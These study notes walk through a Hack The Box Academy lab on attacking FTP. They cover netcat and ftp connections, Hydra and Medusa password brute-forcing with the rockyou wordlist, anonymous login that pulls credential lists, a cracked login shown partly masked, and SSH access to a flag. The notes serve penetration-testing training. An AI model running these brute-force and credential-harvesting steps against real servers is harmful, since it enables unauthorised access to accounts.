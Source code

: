 ## [Attacking FTP](https://academy.hackthebox.com/module/116/section/1165)

# Attacking FTP

| Command                                                       | Description                                     |
|---------------------------------------------------------------|-------------------------------------------------|
| `ftp 192.168.2.142`                                           | Connecting to the FTP server using the ftp client. |
| `nc -v 192.168.2.142 21`                                      | Connecting to the FTP server using netcat.         |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service.                     |


### Connecting to the FTP server using the ftp client:
```
ftp $TARGET_IP
```
### Connecting to the FTP server using netcat:
```
nc -v $TARGET_IP $PORT
```
### Brute Forcing the FTP service with Hydra:
```
hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
```
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
#### Brute Forcing with Medusa:
```
medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp
```


## Questions:
1. What port is the FTP service running on? 

```
sudo nmap -sV -sC $TARGET_IP -Pn
```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/CPTS/Attacking-Common-Services/FTP/ftp-nmap-scan.png">

2. What username is available for the FTP server? 

```
wget -m --no-passive ftp://anonymous:anonymous@10.129.203.6 -Pn
```
or
```
ftp 10.129.203.6 -p 2121
Connected to 10.129.203.6.
220 ProFTPD Server (InlaneFTP) [10.129.203.6]
Name (10.129.203.6:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55278|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp          1959 Apr 19  2022 passwords.list
-rw-rw-r--   1 ftp      ftp            72 Apr 19  2022 users.list
226 Transfer complete
ftp> mget *
mget passwords.list [anpqy?]? y
229 Entering Extended Passive Mode (|||43085|)
150 Opening BINARY mode data connection for passwords.list (1959 bytes)
  1959        1.31 MiB/s 
226 Transfer complete
1959 bytes received in 00:00 (174.85 KiB/s)
mget users.list [anpqy?]? y
229 Entering Extended Passive Mode (|||7181|)
150 Opening BINARY mode data connection for users.list (72 bytes)
    72       30.43 KiB/s 
226 Transfer complete
72 bytes received in 00:00 (6.39 KiB/s)
ftp> 
```

```
hydra -L users.list -P passwords.list  ftp://10.129.203.6:2121 -V
```
 `
  [2121][ftp] host: 10.129.203.6   login: r****   password: 7iz***********7
`


3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

```
ssh $username@$TARGET_IP
```

`ls`

`cat flag.txt`


## HTB{ ATT******_********C3}

# [Subscribe for getting more HTB Cubes!](https://referral.hackthebox.com/mzyGKZb)

